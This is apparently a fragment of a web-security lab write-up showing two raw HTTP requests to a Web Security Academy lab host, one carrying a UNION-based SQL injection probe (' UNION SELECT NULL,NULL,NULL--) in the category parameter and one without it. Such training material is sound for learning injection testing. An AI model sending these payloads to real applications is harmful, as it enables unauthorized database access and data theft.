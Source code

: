 pgSQL
##### Payload Request
GET /filter?category=Accessories _' UNION SELECT NULL,NULL,NULL--_ HTTP/2
Host: 0ad800d704aee1b3808f491000570017.web-security-academy.net
Cookie: session=YxL0GraUujTaClHmAEn3CfKcJgEgRD3Z
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad800d704aee1b3808f491000570017.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i



##### Base request
GET /filter?category=Accessories HTTP/2
Host: 0ad800d704aee1b3808f491000570017.web-security-academy.net
Cookie: session=YxL0GraUujTaClHmAEn3CfKcJgEgRD3Z
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad800d704aee1b3808f491000570017.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i



